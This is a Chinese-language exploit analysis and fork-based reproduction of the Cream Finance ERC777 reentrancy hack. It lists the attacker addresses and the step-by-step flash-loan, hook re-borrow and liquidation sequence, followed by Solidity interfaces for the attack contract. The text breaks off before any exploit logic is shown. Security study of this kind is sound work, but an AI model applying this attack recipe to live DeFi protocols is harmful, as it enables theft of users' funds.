## 概述

上个月8月30日， Cream Finance 又双叒叕遭到了攻击，损失超 1800 万美元。

漏洞原理用一句话概括：`Cream的借贷经济模型未能考虑到ERC777Token的勾子函数所带来的重入风险`

## 事件分析

* 攻击者地址
```
0xce1f4b4f17224ec6df16eeb1e3e5321c54ff6ede
```

* 其中一次攻击的交易哈希(既然大家都选这次分析我也选这次复现好了)
```
0xa9a1b8ea288eb9ad315088f17f7c7386b9989c95b4d13c81b69d5ddad7ffe61e
```

* 该攻击发生的块高度
```
13125071 
```

#### 攻击合约A
```
0x38c40427efbAAe566407e4CdE2A91947dF0bD22B
```

#### 攻击合约B
```
0x0ec306D7634314D35139d1dF4A630d829475A125
```

#### 攻击步骤
* 第一步 在ERC1820地址上调用`setInterfaceImplementer`,完成`AmpTokensRecipient`勾子函数的注册


* 第二步 攻击者从Uniswap通过`FlashSwap`借出500`WETH`


* 第三步 将500`WETH`换成500`ETH`


* 第四步 调用`crETH`的`mint`函数，将500`ETH`存入`crETH`获得借贷凭证


* 第五步 用其借贷凭证借出`19480000`个`AMP`,并通过攻击合约A中的勾子函数，再次借出355个`ETH`



* 第六步 攻击合约A生成一个新的合约

* 第七步 攻击合约A把一半借到的`AMP`转入攻击合约B，用来清算原合约的部分`crETH`,


* 第八步 攻击合约B清算攻击合约A的`crETH`赎回了约187个`ETH`


* 第九步 攻击合约B执行`SelfDestruct()`完成自毁，把约187个`ETH`转回攻击合约



* 第十步 攻击合约A 把355个`ETH`转为355个`WETH`  返回给`Uniswap`501.55个`WETH`,完成闪电贷流程


* 第十一步  攻击合约A把剩下的一半`AMP`和41个`WETH`转回攻击者得钱包地址



## 复现步骤

本次复现不是特别完美,没有加入攻击者的`清算逻辑`,而是把借出的AMP`全部抛售`,归还闪电贷结束攻击.

这也是第一次学习ERC777Token的Hook函数如何实现,光是踩坑就已经让我精疲力尽了.

同时我找一个abi转solidity的工具,再也不用手写interface了,但同时攻击代码也因为8个interface变得特别长.

但我仍旧认为,单文件比引入外部文件要省事.

选择在高度为`13125070`的块上Fork,部署攻击合约

点击Attack



攻击前的metamask余额


攻击后的metamask余额



```
https://gnidan.github.io/abi-to-sol/
```


```
// SPDX-License-Identifier: UNLICENSED
// !! THIS FILE WAS AUTOGENERATED BY abi-to-sol v0.5.0. SEE SOURCE BELOW. !!
pragma solidity >=0.7.0 <0.9.0;

interface IERC1820Registry {
    function setInterfaceImplementer(
        address _addr,
        bytes32 _interfaceHash,
        address _implementer
    ) external;

    function getManager(address _addr) external view returns (address);

    function setManager(address _addr, address _newManager) external;

    function interfaceHash(string memory _interfaceName)
        external
        pure
        returns (bytes32);

    function updateERC165Cache(address _contract, bytes4 _interfaceId) external;

    function getInterfaceImplementer(address _addr, bytes32 _interfaceHash)
        external
        view
        returns (address);

    function implementsERC165InterfaceNoCache(
        address _contract,
        bytes4 _interfaceId
    ) external view returns (bool);

    function implementsERC165Interface(address _contract, bytes4 _interfaceId)
        external
        view
        returns (bool);

    event InterfaceImplementerSet(
        address indexed addr,
        bytes32 indexed interfaceHash,
        address indexed implementer
    );
    event ManagerChanged(address indexed addr, address indexed newManager);
}

interface IERC777 {
    /**
     * @dev Returns the name of the token.
     */
    function name() external view returns (string memory);

    /**
     * @dev Returns the symbol of the token, usually a shorter version of the
     * name.
     */
    function symbol() external view returns (string memory);

    /**
     * @dev Returns the smallest part of the token that is not divisible. This
     * means all token operations (creation, movement and destruction) must have
     * amounts that are a multiple of this number.
     *
     * For most token contracts, this value will equal 1.
     */
    function granularity() external view returns (uint256);

    /**
     * @dev Returns the amount of tokens in existence.
     */
    function totalSupply() external view returns (uint256);

    /**
     * @dev Returns the amount of tokens owned by an account (`owner`).
     */
    function balanceOf(address owner) external view returns (uint256);

    /**
     * @dev Moves `amount` tokens from the caller's account to `recipient`.
     *
     * If send or receive hooks are registered for the caller and `recipient`,
     * the corresponding functions will be called with `data` and empty
     * `operatorData`. See {IERC777Sender} and {IERC777Recipient}.
     *
     * Emits a {Sent} event.
     *
     * Requirements
     *
     * - the caller must have at least `amount` tokens.
     * - `recipient` cannot be the zero address.
     * - if `recipient` is a contract, it must implement the {IERC777Recipient}
     * interface.
     */
    function send(
        address recipient,
        uint256 amount,
        bytes calldata data
    ) external;

    /**
     * @dev Destroys `amount` tokens from the caller's account, reducing the
     * total supply.
     *
     * If a send hook is registered for the caller, the corresponding function
     * will be called with `data` and empty `operatorData`. See {IERC777Sender}.
     *
     * Emits a {Burned} event.
     *
     * Requirements
     *
     * - the caller must have at least `amount` tokens.
     */
    function burn(uint256 amount, bytes calldata data) external;

    /**
     * @dev Returns true if an account is an operator of `tokenHolder`.
     * Operators can send and burn tokens on behalf of their owners. All
     * accounts are their own operator.
     *
     * See {operatorSend} and {operatorBurn}.
     */
    function isOperatorFor(address operator, address tokenHolder) external view returns (bool);

    /**
     * @dev Make an account an operator of the caller.
     *
     * See {isOperatorFor}.
     *
     * Emits an {AuthorizedOperator} event.
     *
     * Requirements
     *
     * - `operator` cannot be calling address.
     */
    function authorizeOperator(address operator) external;

    /**
     * @dev Revoke an account's operator status for the caller.
     *
     * See {isOperatorFor} and {defaultOperators}.
     *
     * Emits a {RevokedOperator} event.
     *
     * Requirements
     *
     * - `operator` cannot be calling address.
     */
    function revokeOperator(address operator) external;

    /**
     * @dev Returns the list of default operators. These accounts are operators
     * for all token holders, even if {authorizeOperator} was never called on
     * them.
     *
     * This list is immutable, but individual holders may revoke these via
     * {revokeOperator}, in which case {isOperatorFor} will return false.
     */
    function defaultOperators() external view returns (address[] memory);

    /**
     * @dev Moves `amount` tokens from `sender` to `recipient`. The caller must
     * be an operator of `sender`.
     *
     * If send or receive hooks are registered for `sender` and `recipient`,
     * the corresponding functions will be called with `data` and
     * `operatorData`. See {IERC777Sender} and {IERC777Recipient}.
     *
     * Emits a {Sent} event.
     *
     * Requirements
     *
     * - `sender` cannot be the zero address.
     * - `sender` must have at least `amount` tokens.
     * - the caller must be an operator for `sender`.
     * - `recipient` cannot be the zero address.
     * - if `recipient` is a contract, it must implement the {IERC777Recipient}
     * interface.
     */
    function operatorSend(
        address sender,
        address recipient,
        uint256 amount,
        bytes calldata data,
        bytes calldata operatorData
    ) external;

    /**
     * @dev Destroys `amount` tokens from `account`, reducing the total supply.
     * The caller must be an operator of `account`.
     *
     * If a send hook is registered for `account`, the corresponding function
     * will be called with `data` and `operatorData`. See {IERC777Sender}.
     *
     * Emits a {Burned} event.
     *
     * Requirements
     *
     * - `account` cannot be the zero address.
     * - `account` must have at least `amount` tokens.
     * - the caller must be an operator for `account`.
     */
    function operatorBurn(
        address account,
        uint256 amount,
        bytes calldata data,
        bytes calldata operatorData
    ) external;

    event Sent(
        address indexed operator,
        address indexed from,
        address indexed to,
        uint256 amount,
        bytes data,
        bytes operatorData
    );

    event Minted(address indexed operator, address indexed to, uint256 amount, bytes data, bytes operatorData);

    event Burned(address indexed operator, address indexed from, uint256 amount, bytes data, bytes operatorData);

    event AuthorizedOperator(address indexed operator, address indexed tokenHolder);

    event RevokedOperator(address indexed operator, address indexed tokenHolder);
}

interface Uni_Pair_V2 {

    event Approval( address indexed owner,address indexed spender,uint256 value ) ;
    event Burn( address indexed sender,uint256 amount0,uint256 amount1,address indexed to ) ;
    event Mint( address indexed sender,uint256 amount0,uint256 amount1 ) ;
    event Swap( address indexed sender,uint256 amount0In,uint256 amount1In,uint256 amount0Out,uint256 amount1Out,address indexed to ) ;
    event Sync( uint112 reserve0,uint112 reserve1 ) ;
    event Transfer( address indexed from,address indexed to,uint256 value ) ;
    function DOMAIN_SEPARATOR(  ) external view returns (bytes32 ) ;
    function MINIMUM_LIQUIDITY(  ) external view returns (uint256 ) ;
    function PERMIT_TYPEHASH(  ) external view returns (bytes32 ) ;
    function allowance( address ,address  ) external view returns (uint256 ) ;
    function approve( address spender,uint256 value ) external  returns (bool ) ;
    function balanceOf( address  ) external view returns (uint256 ) ;
    function burn( address to ) external  returns (uint256 amount0, uint256 amount1) ;
    function decimals(  ) external view returns (uint8 ) ;
    function factory(  ) external view returns (address ) ;
    function getReserves(  ) external view returns (uint112 _reserve0, uint112 _reserve1, uint32 _blockTimestampLast) ;
    function initialize( address _token0,address _token1 ) external   ;
    function kLast(  ) external view returns (uint256 ) ;
    function mint( address to ) external  returns (uint256 liquidity) ;
    function name(  ) external view returns (string memory ) ;
    function nonces( address  ) external view returns (uint256 ) ;
    function permit( address owner,address spender,uint256 value,uint256 deadline,uint8 v,bytes32 r,bytes32 s ) external   ;
    function price0CumulativeLast(  ) external view returns (uint256 ) ;
    function price1CumulativeLast(  ) external view returns (uint256 ) ;
    function skim( address to ) external   ;
    function swap( uint256 amount0Out,uint256 amount1Out,address to,bytes memory data ) external   ;
    function symbol(  ) external view returns (string memory ) ;
    function sync(  ) external   ;
    function token0(  ) external view returns (address ) ;
    function token1(  ) external view returns (address ) ;
    function totalSupply(  ) external view returns (uint256 ) ;
    function transfer( address to,uint256 value ) external  returns (bool ) ;
    function transferFrom( address from,address to,uint256 value ) external  returns (bool ) ;
}

interface Uni_Router_V2{


    function WETH(  ) external view returns (address ) ;
    function addLiquidity( address tokenA,address tokenB,uint256 amountADesired,uint256 amountBDesired,uint256 amountAMin,uint256 amountBMin,address to,uint256 deadline ) external  returns (uint256 amountA, uint256 amountB, uint256 liquidity) ;
    function addLiquidityETH( address token,uint256 amountTokenDesired,uint256 amountTokenMin,uint256 amountETHMin,address to,uint256 deadline ) external payable returns (uint256 amountToken, uint256 amountETH, uint256 liquidity) ;
    function factory(  ) external view returns (address ) ;
    function getAmountIn( uint256 amountOut,uint256 reserveIn,uint256 reserveOut ) external pure returns (uint256 amountIn) ;
    function getAmountOut( uint256 amountIn,uint256 reserveIn,uint256 reserveOut ) external pure returns (uint256 amountOut) ;
    function getAmountsIn( uint256 amountOut,address[] memory path ) external view returns (uint256[] memory amounts) ;
    function getAmountsOut( uint256 amountIn,address[] memory path ) external view returns (uint256[] memory amounts) ;
    function quote( uint256 amountA,uint256 reserveA,uint256 reserveB ) external pure returns (uint256 amountB) ;
    function removeLiquidity( address tokenA,address tokenB,uint256 liquidity,uint256 amountAMin,uint256 amountBMin,address to,uint256 deadline ) external  returns (uint256 amountA, uint256 amountB) ;
    function removeLiquidityETH( address token,uint256 liquidity,uint256 amountTokenMin,uint256 amountETHMin,address to,uint256 deadline ) external  returns (uint256 amountToken, uint256 amountETH) ;
    function removeLiquidityETHSupportingFeeOnTransferTokens( address token,uint256 liquidity,uint256 amountTokenMin,uint256 amountETHMin,address to,uint256 deadline ) external  returns (uint256 amountETH) ;
    function removeLiquidityETHWithPermit( address token,uint256 liquidity,uint256 amountTokenMin,uint256 amountETHMin,address to,uint256 deadline,bool approveMax,uint8 v,bytes32 r,bytes32 s ) external  returns (uint256 amountToken, uint256 amountETH) ;
    function removeLiquidityETHWithPermitSupportingFeeOnTransferTokens( address token,uint256 liquidity,uint256 amountTokenMin,uint256 amountETHMin,address to,uint256 deadline,bool approveMax,uint8 v,bytes32 r,bytes32 s ) external  returns (uint256 amountETH) ;
    function removeLiquidityWithPermit( address tokenA,address tokenB,uint256 liquidity,uint256 amountAMin,uint256 amountBMin,address to,uint256 deadline,bool approveMax,uint8 v,bytes32 r,bytes32 s ) external  returns (uint256 amountA, uint256 amountB) ;
    function swapETHForExactTokens( uint256 amountOut,address[] memory path,address to,uint256 deadline ) external payable returns (uint256[] memory amounts) ;
    function swapExactETHForTokens( uint256 amountOutMin,address[] memory path,address to,uint256 deadline ) external payable returns (uint256[] memory amounts) ;
    function swapExactETHForTokensSupportingFeeOnTransferTokens( uint256 amountOutMin,address[] memory path,address to,uint256 deadline ) external payable  ;
    function swapExactTokensForETH( uint256 amountIn,uint256 amountOutMin,address[] memory path,address to,uint256 deadline ) external  returns (uint256[] memory amounts) ;
    function swapExactTokensForETHSupportingFeeOnTransferTokens( uint256 amountIn,uint256 amountOutMin,address[] memory path,address to,uint256 deadline ) external   ;
    function swapExactTokensForTokens( uint256 amountIn,uint256 amountOutMin,address[] memory path,address to,uint256 deadline ) external  returns (uint256[] memory amounts) ;
    function swapExactTokensForTokensSupportingFeeOnTransferTokens( uint256 amountIn,uint256 amountOutMin,address[] memory path,address to,uint256 deadline ) external   ;
    function swapTokensForExactETH( uint256 amountOut,uint256 amountInMax,address[] memory path,address to,uint256 deadline ) external  returns (uint256[] memory amounts) ;
    function swapTokensForExactTokens( uint256 amountOut,uint256 amountInMax,address[] memory path,address to,uint256 deadline ) external  returns (uint256[] memory amounts) ;
    // receive () external payable;
}

interface WETH9 {
    function name() external view returns (string memory);

    function approve(address guy, uint256 wad) external returns (bool);

    function totalSupply() external view returns (uint256);

    function transferFrom(
        address src,
        address dst,
        uint256 wad
    ) external returns (bool);

    function withdraw(uint256 wad) external;

    function decimals() external view returns (uint8);

    function balanceOf(address) external view returns (uint256);

    function symbol() external view returns (string memory);

    function transfer(address dst, uint256 wad) external returns (bool);

    function deposit() external payable;

    function allowance(address, address) external view returns (uint256);
    // 由于高版本的问题，这行要注释掉
    // fallback() external payable;

    event Approval(address indexed src, address indexed guy, uint256 wad);
    event Transfer(address indexed src, address indexed dst, uint256 wad);
    event Deposit(address indexed dst, uint256 wad);
    event Withdrawal(address indexed src, uint256 wad);
}

interface crETH {
    event AccrueInterest(
        uint256 cashPrior,
        uint256 interestAccumulated,
        uint256 borrowIndex,
        uint256 totalBorrows
    );
    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 amount
    );
    event Borrow(
        address borrower,
        uint256 borrowAmount,
        uint256 accountBorrows,
        uint256 totalBorrows
    );
    event Failure(uint256 error, uint256 info, uint256 detail);
    event LiquidateBorrow(
        address liquidator,
        address borrower,
        uint256 repayAmount,
        address cTokenCollateral,
        uint256 seizeTokens
    );
    event Mint(address minter, uint256 mintAmount, uint256 mintTokens);
    event NewAdmin(address oldAdmin, address newAdmin);
    event NewComptroller(address oldComptroller, address newComptroller);
    event NewMarketInterestRateModel(
        address oldInterestRateModel,
        address newInterestRateModel
    );
    event NewPendingAdmin(address oldPendingAdmin, address newPendingAdmin);
    event NewReserveFactor(
        uint256 oldReserveFactorMantissa,
        uint256 newReserveFactorMantissa
    );
    event Redeem(address redeemer, uint256 redeemAmount, uint256 redeemTokens);
    event RepayBorrow(
        address payer,
        address borrower,
        uint256 repayAmount,
        uint256 accountBorrows,
        uint256 totalBorrows
    );
    event ReservesAdded(
        address benefactor,
        uint256 addAmount,
        uint256 newTotalReserves
    );
    event ReservesReduced(
        address admin,
        uint256 reduceAmount,
        uint256 newTotalReserves
    );
    event Transfer(address indexed from, address indexed to, uint256 amount);

    //由于高版本的问题，这行要注释掉
    // fallback() external payable;

    function _acceptAdmin() external returns (uint256);

    function _reduceReserves(uint256 reduceAmount) external returns (uint256);

    function _setComptroller(address newComptroller) external returns (uint256);

    function _setInterestRateModel(address newInterestRateModel)
        external
        returns (uint256);

    function _setPendingAdmin(address newPendingAdmin)
        external
        returns (uint256);

    function _setReserveFactor(uint256 newReserveFactorMantissa)
        external
        returns (uint256);

    function accrualBlockNumber() external view returns (uint256);

    function accrueInterest() external returns (uint256);

    function admin() external view returns (address);

    function allowance(address owner, address spender)
        external
        view
        returns (uint256);

    function approve(address spender, uint256 amount) external returns (bool);

    function balanceOf(address owner) external view returns (uint256);

    function balanceOfUnderlying(address owner) external returns (uint256);

    function borrow(uint256 borrowAmount) external returns (uint256);

    function borrowBalanceCurrent(address account) external returns (uint256);

    function borrowBalanceStored(address account)
        external
        view
        returns (uint256);

    function borrowIndex() external view returns (uint256);

    function borrowRatePerBlock() external view returns (uint256);

    function comptroller() external view returns (address);

    function decimals() external view returns (uint8);

    function exchangeRateCurrent() external returns (uint256);

    function exchangeRateStored() external view returns (uint256);

    function getAccountSnapshot(address account)
        external
        view
        returns (
            uint256,
            uint256,
            uint256,
            uint256
        );

    function getCash() external view returns (uint256);

    function initialize(
        address comptroller_,
        address interestRateModel_,
        uint256 initialExchangeRateMantissa_,
        string memory name_,
        string memory symbol_,
        uint8 decimals_
    ) external;

    function interestRateModel() external view returns (address);

    function isCToken() external view returns (bool);

    function liquidateBorrow(address borrower, address cTokenCollateral)
        external
        payable;

    function mint() external payable;

    function name() external view returns (string memory);

    function pendingAdmin() external view returns (address);

    function redeem(uint256 redeemTokens) external returns (uint256);

    function redeemUnderlying(uint256 redeemAmount) external returns (uint256);

    function repayBorrow() external payable;

    function repayBorrowBehalf(address borrower) external payable;

    function reserveFactorMantissa() external view returns (uint256);

    function seize(
        address liquidator,
        address borrower,
        uint256 seizeTokens
    ) external returns (uint256);

    function supplyRatePerBlock() external view returns (uint256);

    function symbol() external view returns (string memory);

    function totalBorrows() external view returns (uint256);

    function totalBorrowsCurrent() external returns (uint256);

    function totalReserves() external view returns (uint256);

    function totalSupply() external view returns (uint256);

    function transfer(address dst, uint256 amount) external returns (bool);

    function transferFrom(
        address src,
        address dst,
        uint256 amount
    ) external returns (bool);
}

interface crAMP {
    event AccrueInterest(
        uint256 cashPrior,
        uint256 interestAccumulated,
        uint256 borrowIndex,
        uint256 totalBorrows
    );
    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 amount
    );
    event Borrow(
        address borrower,
        uint256 borrowAmount,
        uint256 accountBorrows,
        uint256 totalBorrows
    );
    event Failure(uint256 error, uint256 info, uint256 detail);
    event LiquidateBorrow(
        address liquidator,
        address borrower,
        uint256 repayAmount,
        address cTokenCollateral,
        uint256 seizeTokens
    );
    event Mint(address minter, uint256 mintAmount, uint256 mintTokens);
    event NewAdmin(address oldAdmin, address newAdmin);
    event NewComptroller(address oldComptroller, address newComptroller);
    event NewImplementation(
        address oldImplementation,
        address newImplementation
    );
    event NewMarketInterestRateModel(
        address oldInterestRateModel,
        address newInterestRateModel
    );
    event NewPendingAdmin(address oldPendingAdmin, address newPendingAdmin);
    event NewReserveFactor(
        uint256 oldReserveFactorMantissa,
        uint256 newReserveFactorMantissa
    );
    event Redeem(address redeemer, uint256 redeemAmount, uint256 redeemTokens);
    event RepayBorrow(
        address payer,
        address borrower,
        uint256 repayAmount,
        uint256 accountBorrows,
        uint256 totalBorrows
    );
    event ReservesAdded(
        address benefactor,
        uint256 addAmount,
        uint256 newTotalReserves
    );
    event ReservesReduced(
        address admin,
        uint256 reduceAmount,
        uint256 newTotalReserves
    );
    event Transfer(address indexed from, address indexed to, uint256 amount);
    
    // 由于高版本的问题，这行要注释掉
    // fallback() external payable;

    function _acceptAdmin() external returns (uint256);

    function _addReserves(uint256 addAmount) external returns (uint256);

    function _reduceReserves(uint256 reduceAmount) external returns (uint256);

    function _setComptroller(address newComptroller) external returns (uint256);

    function _setImplementation(
        address implementation_,
        bool allowResign,
        bytes memory becomeImplementationData
    ) external;

    function _setInterestRateModel(address newInterestRateModel)
        external
        returns (uint256);

    function _setPendingAdmin(address newPendingAdmin)
        external
        returns (uint256);

    function _setReserveFactor(uint256 newReserveFactorMantissa)
        external
        returns (uint256);

    function accrualBlockNumber() external view returns (uint256);

    function accrueInterest() external returns (uint256);

    function admin() external view returns (address);

    function allowance(address owner, address spender)
        external
        view
        returns (uint256);

    function approve(address spender, uint256 amount) external returns (bool);

    function balanceOf(address owner) external view returns (uint256);

    function balanceOfUnderlying(address owner) external returns (uint256);

    function borrow(uint256 borrowAmount) external returns (uint256);

    function borrowBalanceCurrent(address account) external returns (uint256);

    function borrowBalanceStored(address account)
        external
        view
        returns (uint256);

    function borrowIndex() external view returns (uint256);

    function borrowRatePerBlock() external view returns (uint256);

    function comptroller() external view returns (address);

    function decimals() external view returns (uint8);

    function delegateToImplementation(bytes memory data)
        external
        returns (bytes memory);

    function delegateToViewImplementation(bytes memory data)
        external
        view
        returns (bytes memory);

    function exchangeRateCurrent() external returns (uint256);

    function exchangeRateStored() external view returns (uint256);

    function getAccountSnapshot(address account)
        external
        view
        returns (
            uint256,
            uint256,
            uint256,
            uint256
        );

    function getCash() external view returns (uint256);

    function implementation() external view returns (address);

    function interestRateModel() external view returns (address);

    function isCToken() external view returns (bool);

    function liquidateBorrow(
        address borrower,
        uint256 repayAmount,
        address cTokenCollateral
    ) external returns (uint256);

    function mint(uint256 mintAmount) external returns (uint256);

    function name() external view returns (string memory);

    function pendingAdmin() external view returns (address);

    function redeem(uint256 redeemTokens) external returns (uint256);

    function redeemUnderlying(uint256 redeemAmount) external returns (uint256);

    function repayBorrow(uint256 repayAmount) external returns (uint256);

    function repayBorrowBehalf(address borrower, uint256 repayAmount)
        external
        returns (uint256);

    function reserveFactorMantissa() external view returns (uint256);

    function seize(
        address liquidator,
        address borrower,
        uint256 seizeTokens
    ) external returns (uint256);

    function supplyRatePerBlock() external view returns (uint256);

    function symbol() external view returns (string memory);

    function totalBorrows() external view returns (uint256);

    function totalBorrowsCurrent() external returns (uint256);

    function totalReserves() external view returns (uint256);

    function totalSupply() external view returns (uint256);

    function transfer(address dst, uint256 amount) external returns (bool);

    function transferFrom(
        address src,
        address dst,
        uint256 amount
    ) external returns (bool);

    function underlying() external view returns (address);
}

interface AMP {
    event Approval(
        address indexed owner,
        address indexed spender,
        uint256 value
    );
    event ApprovalByPartition(
        bytes32 indexed partition,
        address indexed owner,
        address indexed spender,
        uint256 value
    );
    event AuthorizedOperator(
        address indexed operator,
        address indexed tokenHolder
    );
    event AuthorizedOperatorByPartition(
        bytes32 indexed partition,
        address indexed operator,
        address indexed tokenHolder
    );
    event ChangedPartition(
        bytes32 indexed fromPartition,
        bytes32 indexed toPartition,
        uint256 value
    );
    event CollateralManagerRegistered(address collateralManager);
    event Minted(
        address indexed operator,
        address indexed to,
        uint256 value,
        bytes data
    );
    event OwnerUpdate(address indexed oldValue, address indexed newValue);
    event OwnershipTransferAuthorization(address indexed authorizedAddress);
    event PartitionStrategySet(
        bytes4 flag,
        string name,
        address indexed implementation
    );
    event RevokedOperator(
        address indexed operator,
        address indexed tokenHolder
    );
    event RevokedOperatorByPartition(
        bytes32 indexed partition,
        address indexed operator,
        address indexed tokenHolder
    );
    event Swap(address indexed operator, address indexed from, uint256 value);
    event Transfer(address indexed from, address indexed to, uint256 value);
    event TransferByPartition(
        bytes32 indexed fromPartition,
        address operator,
        address indexed from,
        address indexed to,
        uint256 value,
        bytes data,
        bytes operatorData
    );

    function allowance(address _owner, address _spender)
        external
        view
        returns (uint256);

    function allowanceByPartition(
        bytes32 _partition,
        address _owner,
        address _spender
    ) external view returns (uint256);

    function approve(address _spender, uint256 _value) external returns (bool);

    function approveByPartition(
        bytes32 _partition,
        address _spender,
        uint256 _value
    ) external returns (bool);

    function assumeOwnership() external;

    function authorizeOperator(address _operator) external;

    function authorizeOperatorByPartition(bytes32 _partition, address _operator)
        external;

    function authorizeOwnershipTransfer(address _authorizedAddress) external;

    function authorizedNewOwner() external view returns (address);

    function balanceOf(address _tokenHolder) external view returns (uint256);

    function balanceOfByPartition(bytes32 _partition, address _tokenHolder)
        external
        view
        returns (uint256);

    function canImplementInterfaceForAddress(bytes32 _interfaceHash, address)
        external
        view
        returns (bytes32);

    function collateralManagers(uint256) external view returns (address);

